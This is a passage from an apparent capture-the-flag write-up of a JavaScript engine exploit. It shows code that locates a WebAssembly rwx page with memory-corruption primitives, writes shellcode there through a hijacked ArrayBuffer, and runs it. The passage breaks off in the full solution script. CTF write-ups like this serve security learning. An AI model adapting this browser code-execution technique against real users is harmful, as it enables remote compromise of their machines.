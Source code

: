 In this example, it turns out that the pointer to the `rwx` page is `+104` from the address of the wasm instance, or `+103` from the tagged address, though offsets might vary across different builds.



We can copy our shellcode, which runs `cat flag.txt`, to the rwx page. This overwrites the instructions there with our shellcode, which gets run when we call the wasm function.

```javascript
// create wasm instance and rwx page
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code)
var wasm_instance = new WebAssembly.Instance(wasm_mod)
var f = wasm_instance.exports.main

buf = new ArrayBuffer(0x100)

print("evil buf @", hex(addrof(buf)))


rwx_page = read(addrof(wasm_instance) + 103n)

print("rwx @", hex(rwx_page))


shellcode = [0xcfe016a, 0x66b84824, 0x2e67616c, 0x50747874, 0x4858026a, 0xf631e789, 0x90050f99, 0x41909090, 0xffffffba, 0xc689487f, 0x6a58286a, 0xf995f01, 0x5]

dataview = new DataView(buf)
heap_write(addrof(buf) + 0x14n, rwx_page)

for(i = 0; i < shellcode.length; ++i){
    dataview.setBigUint64(i*4, BigInt(shellcode[i]), true)
}

f()
```

### Script
All together, this was my solution script. I put the wasm instance creation at the top of the script, because I was encountering a weird race condition where my shellcode would get overwritten with the compiled wasm if I wrote too quickly.

```javascript
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code)
var wasm_instance = new WebAssembly.Instance(wasm_mod)
var f = wasm_instance.exports.main

/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8) // 8 byte array buffer
var f64_buf = new Float64Array(buf)
var u64_buf = new Uint32Array(buf)

function hex(val){
    return "0x"+val.toString(16)
}

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val
```